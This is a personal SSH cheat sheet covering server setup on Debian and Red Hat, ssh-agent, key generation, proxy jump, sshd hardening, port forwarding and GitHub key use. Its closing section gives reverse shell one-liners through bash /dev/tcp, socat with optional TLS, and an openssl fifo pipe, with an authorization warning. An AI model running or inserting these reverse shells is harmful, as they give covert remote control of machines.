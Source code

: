 # SSH

## Enable SSH Server (Debian)

```bash
sudo apt install openssh-server
sudo systemctl enable ssh
sudo systemctl start ssh
sudo ufw allow ssh
sudo ufw enable
```

## Enable SSH Server (Red Hat)
```bash
sudo dnf install -y openssh-server
sudo systemctl enable sshd
sudo systemctl start sshd
sudo systemctl status sshd
sudo firewall-cmd --permanent --add-service=ssh
sudo firewall-cmd --reload
# sudo firewall-cmd --list-all # Just to comfirm
```

## SSH Agent
List ssh-agent keys
`ssh-add -l`

Add SSH Key to the ssh-agent
`ssh-add </path/to/your/private/key>`

Remove Key from the ssh-agent
`ssh-add -d </path/to/your/private/key>`

Start the ssh-agent
`eval "$(ssh-agent -s)"`

Restart the ssh-agent
`eval "$(ssh-agent -k)"  # Kill the agent`
`eval "$(ssh-agent)"     # Start a fresh instance`

## Keys
Generate new key
`ssh-keygen -t rsa -b 4096 -C <email@domain.com>` 

Generate new key using ed25519 (best practice) `ssh-keygen -t ed25519 -C <your_email@example.com>`

Copy key to remote
`ssh-copy-id -i $<key_path> <user>@<hostname/ip>`

Use a specific key during connection
`ssh -o "IdentitiesOnly=yes" -i <key_path> -p <port> <user><hostname/ip>`

Use **only** password authentication (if is is allowed)
`ssh -o PubkeyAuthentication=no user>@<hostname/ip>`

## Proxy Jump
SSH proxy jump
`ssh -J <user-proxy>@<domain/ip-proxy> <user-target>@<domai/ip-target>`

SSh proxy jump on user configuration (~/.ssh/config)
```
Host <proxy-host-name>
  HostName <IP-address>
  User <user-name>                  # Not important
  Port <specify-port-number-here>   # Not important
  IdentityFile ~/.ssh/<file1>       # Not important

### The Remote Host
Host <private-server-name>
  HostName <IP-address>             # Not important
  User <user-name>                  # Not important
  Port <specify-port-number-here>   # Not important
  IdentityFile ~/.ssh/<file2>       # Not important
  ProxyJump <proxy-host-name>
```

## Configuration
Check SSH Configuration
`ssh -G <hostname>`

Global configuration filepath
`/etc/ssh/ssh_config`

### Disable both password and keyboard-interactive

1. `sudo vim /etc/ssh/sshd_config`
2. Set the following options:
    ```
    PasswordAuthentication no
    ChallengeResponseAuthentication no
    UsePAM no
    ```
3. `sudo systemctl restart ssh`

## Other connections
Remote Command Execution
`ssh <user>@<hostname/ip> "<command>"`

Local Port Forwarding (Forward a port from the remote machine to your local machine)
`ssh -L <local_port>:<remote_host>:<remote_port> -N <user>@<hostname/ip>` # Use -N if you don’t need a shell session

Remote Port Forwarding: (Forward a port from your local machine to a remote machine)
`ssh -R <remote_port>:<local_host>:<local_port> -N <user>@<hostname/ip>` # Use -N if you don’t need a shell session

Create an SSH SOCKS proxy for dynamic port forwarding
`ssh -D <local_port> <user>@<hostname>`

## Use SSH key on Github

1. Run `ssh-keygen -t ed25519 -C "your_email@example.com"`
2. `cat ~/.ssh/<keyname>.pub` and copy your key
3. Paste it as is on your github account as an authentication key
4. Add on your `~/.ssh/config` this:
```
Host github.com
  HostName github.com
  User git
  IdentityFile ~/.ssh/<keyname>
  IdentitiesOnly yes
  IdentityAgent none
  AddKeysToAgent no
```
5. Evaluate that it is working by running `ssh -T git@github.com`
6. For security run `chmod 400 ~/.ssh/<keyname>`
7. If you have repositories that have been cloned using https, do the following
```
# Inspect remotes
git remote -v

# Update
git remote set-url origin git@github.com:Username/repository-name.git

# Inspect remotes again
```

## Reverse shell 


> [!WARNING]
> Use reverse shell only on systems that you have explicit authorization to access.

### 1. Using Bash
**Listener** (the machine that wants to establish the ssh connection)
```bash
nc -lvnp <port>
```

From the **target** machine run one of the commands based on the use case.

1. Terminal
```bash
while true; do bash -c "/bin/bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" ; sleep 5 ; done
```

### 2. Socat [Preferred]
Reverse Shell with socat (recommended for stability). Socat is very reliable and supports full TTY and encryption (TLS) if needed.

Installation
```
sudo apt install socat
```

On the **listener**:
```
socat file:`tty`,raw,echo=0 tcp-listen:<port>,reuseaddr
```

On the **target** (your device):
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<your-ip>:<port>
```

#### How to add encryption:
**Listener**
```bash
# Create certificate
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
cat key.pem cert.pem > fullchain.pem

# Start listener
socat openssl-listen:<port>,reuseaddr,fork,cert=cert.pem,key=key.pem,cafile=cert.pem,verify=0 file:`tty`,raw,echo=0
```

**Target**
```bash
socat openssl-connect:<your-ip>:<port>,verify=0 exec:'bash -li',pty,stderr,setsid,sigint,sane
```

### 4. OpenSSL
A bit more complex but adds encryption.

On the **listener**:
```
openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout cert.pem
openssl s_server -quiet -key cert.pem -cert cert.pem -port <port>
```

On the **target**:
```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ip>:<port> > /tmp/s
```